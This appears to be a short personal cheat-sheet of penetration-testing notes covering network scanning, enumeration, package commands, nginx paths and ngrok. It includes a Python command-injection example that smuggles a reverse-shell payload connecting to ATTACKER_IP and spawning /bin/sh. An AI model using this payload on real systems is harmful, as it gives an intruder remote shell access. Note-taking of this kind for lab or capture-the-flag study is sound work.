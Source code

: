 
arp-scan -l/netdiscover -r [subnet/netmask] -> gives a table of all the devices that is connected to the network.

dpkg -i [filename] -> for installing pages that have been downloaded.

enum4linux [ip] -> gives a lot of info

sudo apt update || apt upgrade -t and after that sudo apt full-upgrade


For restert internet - systemctl restart NetworkManager 

Use duckduckgo search engine for exploit(It's better somehow).

command injection for python exemple - "', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#"


If we are working with nginx there is file-subdomain in `/etc/nginx/sites-enabled`.

ngrok - Fast way to make a server.

Remember, If there is a filed that needs in inside url just use python http server function for it.
